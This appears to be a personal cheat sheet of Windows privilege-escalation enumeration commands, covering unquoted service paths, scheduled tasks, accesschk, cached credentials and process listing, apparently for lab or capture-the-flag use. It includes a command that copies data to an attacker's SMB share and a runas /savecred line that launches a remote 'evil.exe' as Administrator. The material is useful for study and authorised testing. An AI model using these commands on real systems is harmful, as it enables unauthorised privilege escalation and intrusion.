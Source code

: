 ## Unquoted Service Paths

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

## ScheduledTasks

```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt

dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

![qownnotes-media-MkSFLk](../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

```
accesschk.exe /accepteula -quvw <username> <filename>
```

![qownnotes-media-JfEeCP](../media/qownnotes-media-JfEeCP.png)

## Cached credencials

```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

## EnumerateProcess

```
get-process
wmic process
tasklist
tasklist /svc
tasklist /v /fi "username eq system"
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```
